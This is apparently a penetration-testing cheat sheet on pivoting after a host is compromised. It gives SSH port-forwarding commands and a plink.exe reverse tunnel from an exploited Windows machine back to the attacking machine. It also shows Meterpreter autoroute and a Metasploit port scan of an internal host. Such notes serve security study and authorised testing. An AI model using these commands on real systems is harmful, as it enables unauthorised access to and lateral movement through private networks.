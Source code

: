Useful Resource:

> https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/

> https://artkond.com/2017/03/23/pivoting-guide/

### SSH 

> ssh username@10.1.1.236 -D 1080

> ssh -L 9999:10.1.1.236:80 firefart@10.11.1.251

On the exploited/rooted machine, connect back to the attacker
All Local traffic on port 6666 will forward through the host
and be forwarded on again to port 3389 on the internal network

> ssh root@10.11.0.32 -R 6666:10.1.1.224:3389



### Using Plink:

Useful Guide: https://the.earth.li/~sgtatham/putty/0.60/htmldoc/Chapter7.html

After exploiting a Windows host, run this from the command line:
This creates a tunnel back to the attacking machine
It will forward all traffic on the attacking machine, port 4444
to Port 80 on the IP specified.

> plink.exe -ssh root@YOUR_ATTACKING_MACHINE -R 127.0.0.1:4444:10.2.2.218:80





### Using Metereter

After retrieving meterpreter shell on VICTIM1:

This will create a route to the host on the new network

> run autoroute -s 10.2.2.218

Background the session

```
use auxiliary/scanner/portscan/tcp
set rhosts 10.2.2.218
set threads 50
run
```

This will do a port scan of the host


